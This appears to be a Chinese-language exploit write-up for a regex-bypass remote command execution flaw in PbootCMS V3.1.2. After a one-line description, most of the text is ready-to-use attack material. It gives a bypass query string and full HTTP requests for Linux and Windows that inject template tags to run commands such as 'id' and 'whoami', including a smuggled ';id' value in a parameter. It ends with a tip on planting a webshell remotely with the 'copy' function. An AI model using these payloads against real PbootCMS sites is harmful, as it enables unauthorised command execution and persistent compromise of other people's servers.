

# PbootCMS V3.1.2 正则绕过 RCE 漏洞

## 漏洞描述

PbootCMS 项目路径下 /common/function.php 中存在两个函数 get_lg 和 get_backurl，可绕过正则处理，进而执行命令。

## 漏洞复现

Bypass exp：

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

Linux exp：

```
GET /index.php/keyword?keyword=}{pboot:if((get_lg/*aaa-*/())/**/(get_backurl/*aaa-*/()))}123321aaa{/pboot:if}&backurl=;id HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

Windows exp：

```
GET /?member/login/?a=}{pboot:if((get_lg/*aaa-*/())/**/("whoami"))}{/pboot:if} HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer:your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

写 `webshell` 时用 `file_put_contents` 写入时有关键字限制：



可使用 `copy` 函数远程落地。